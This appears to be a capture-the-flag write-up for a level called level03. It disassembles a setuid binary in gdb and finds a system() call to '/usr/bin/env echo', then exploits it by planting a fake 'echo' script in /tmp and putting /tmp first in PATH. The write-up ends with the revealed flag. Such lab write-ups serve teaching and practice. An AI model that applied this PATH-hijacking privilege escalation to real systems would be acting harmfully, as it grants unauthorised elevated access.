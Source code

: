 # level03

- We log as  `level03`

- A  `level03`  file is located inside the home directory of level02

- This is an executable file with special rights:
	>`-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03`

- Trying to execute it being logged as  `level03`  will execute it as  `flag03`

- Uppon execution it displays  `Exploit me`

- We dissasemble the binary using gdb, here is the  `main`  function:
```asm
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     and    $0xfffffff0,%esp
   0x080484aa <+6>:     sub    $0x20,%esp
   0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
   0x080484bf <+27>:    mov    0x18(%esp),%eax
   0x080484c3 <+31>:    mov    %eax,0x8(%esp)
   0x080484c7 <+35>:    mov    0x18(%esp),%eax
   0x080484cb <+39>:    mov    %eax,0x4(%esp)
   0x080484cf <+43>:    mov    0x18(%esp),%eax
   0x080484d3 <+47>:    mov    %eax,(%esp)
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    0x1c(%esp),%eax
   0x080484df <+59>:    mov    %eax,0x8(%esp)
   0x080484e3 <+63>:    mov    0x1c(%esp),%eax
   0x080484e7 <+67>:    mov    %eax,0x4(%esp)
   0x080484eb <+71>:    mov    0x1c(%esp),%eax
   0x080484ef <+75>:    mov    %eax,(%esp)
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave  
   0x08048504 <+96>:    ret
```

- We can see multiple function calls but the interesting one is  `system` :
	>`0x080484fe <+90>:    call   0x80483b0 <system@plt>`

- The line above moves the argument of  `system`  on top of the stack:
	>`0x080484f7 <+83>:    movl   $0x80485e0,(%esp)`

- Let's display the content of  `0x80485e0`  with  `(gdb) x/s 0x80485e0` :
	>`0x80485e0:       "/usr/bin/env echo Exploit me"`

- We can see that the  `echo`  command is vulnerable to `PATH`  environment variable manipulation because it is called using  `/usr/bin/env`  which forces the binary to be found inside  `PATH`  variable

- We create a shell script named  `echo`  inside  `/tmp` which contains:
	>`getflag`

- We add  `/tmp`  at the front of  `PATH` with:
	>`export PATH=/tmp:$PATH`

- We run  `./level03`  inside the home directory of  `level03`

- We get the flag  `qi0maab88jeaj46qoumi7maus`
